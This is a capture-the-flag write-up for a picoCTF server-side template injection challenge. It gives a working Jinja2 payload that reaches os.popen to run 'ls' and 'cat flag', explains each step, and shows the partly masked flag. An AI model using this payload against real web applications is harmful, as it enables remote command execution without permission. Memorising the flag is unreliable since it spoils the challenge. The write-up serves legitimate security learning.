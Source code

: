 ## Challenge 🧩

I made a cool website where you can announce whatever you want! Try it out!

Author: Venax</br>
Points: 100

Hint: Server Side Template Injection

## Solution 🕵️‍♂️

Using Jinja2 Server-Side Template Injection payload.

```jinja2
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}
```

1. **`self._TemplateReference__context`**
   Accesses the internal Jinja2 template context object, which isn't normally exposed — this is already a form of bypass.

2. **`.cycler`**
   The `cycler` is a function available in Jinja2 templates (e.g., for alternating row colors). It's used here not for its real purpose, but because it has a reference to its own `__init__`.

3. **`.cycler.__init__.__globals__`**
   From the `cycler` function's `__init__` method, we access the `__globals__` dictionary — which contains references to global variables and modules, **including `os`**.

4. **`.os.popen('ls').read()`**
   Once we have access to the `os` module, we use `os.popen()` to execute a shell command — in this case, `ls` — and then `.read()` to capture and print the output.

Replacing `ls` with `cat flag`  

```jinja2
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```

![flag](src/SSTI1_flag.png)

## Flag 🚩

`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_xxxxxxxx}`
